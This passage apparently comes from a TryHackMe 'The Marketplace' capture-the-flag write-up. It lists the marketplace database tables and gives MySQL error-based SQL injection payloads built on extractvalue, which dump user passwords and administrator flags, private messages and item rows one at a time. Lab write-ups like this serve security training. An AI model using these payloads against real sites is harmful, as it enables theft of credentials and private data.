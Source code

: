 - Database `marketplace`'s column names: 
	- Table `items`: `id`, `author`, `title`, `description`, `image`.
	- Table `messages`: `id`, `user_from`, `user_to`, `message_content`, `is_read`, 
	- Table `users`: `id`, `username`, `password`, `isAdministrator`, 

**Retrieve database `marketplace`'s data in all tables:**
```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(id,0x3a,username,0x3a,password,0x3a,isAdministrator) FROM users LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(id,0x3a,username,0x3a,password,0x3a,isAdministrator) FROM users LIMIT 1,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(id,0x3a,username,0x3a,password,0x3a,isAdministrator) FROM users LIMIT 2,1)))--

1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(id,0x3a,user_from,0x3a,user_to,0x3a,message_content,0x3a,is_read) FROM messages LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(id,0x3a,user_from,0x3a,user_to,0x3a,message_content,0x3a,is_read) FROM messages LIMIT 1,1)))--

1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(id,0x3a,author,0x3a,title,0x3a,description,0x3a,image) FROM items LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(id,0x3a,author,0x3a,title,0x3a,description,0x3a,image) FROM items LIMIT 1,1)))--
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a45.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a46.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a47.png)
